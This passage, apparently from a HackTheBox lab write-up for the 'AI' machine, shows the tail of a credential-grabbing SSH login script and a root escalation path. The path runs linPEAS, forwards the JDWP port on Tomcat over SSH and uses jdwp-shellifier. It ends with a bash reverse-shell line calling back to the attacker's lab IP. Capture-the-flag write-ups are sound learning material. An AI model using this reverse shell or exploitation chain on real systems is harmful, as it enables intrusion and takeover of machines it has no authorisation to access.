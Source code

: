 ```py
    
    rhost = args.target

    '''Here we call the functions'''
    # Let's get the username
    getUsername(rhost)
    # Let's get the password
    getPassword(rhost)
    # Now, let's ssh in
    sshLogin(rhost,username,password)

if __name__ == '__main__':
    main()
```

Let's get root.

# Alexa --> Root

First, we run [Linpeas](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh) on the box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2008:18:03.png)

We see on the running process one interesting, the `jwdp` in `tomcat`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2008:18:52.png)

We see that it's running on port 8080

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2008:20:58.png)

So we must do a port forwading to attack it

We will use the ssh and forward to local port 8000 and 8080

```sh
ssh -L 8000:127.0.0.1:8000 -L 8080:127.0.0.1:8080 alexa@10.10.10.163
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2008:38:24.png)

Now we can access it locally

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2008:39:26.png)

We'll use a [JDWP exploitation script](https://github.com/IOActive/jdwp-shellifier) to get root in it

We create a bash script to run a reverse shell

`0x4rt3mis.sh`

```sh
#!/bin/bash             
bash -i >& /dev/tcp/10.10.14.20/443 0>&1  
```
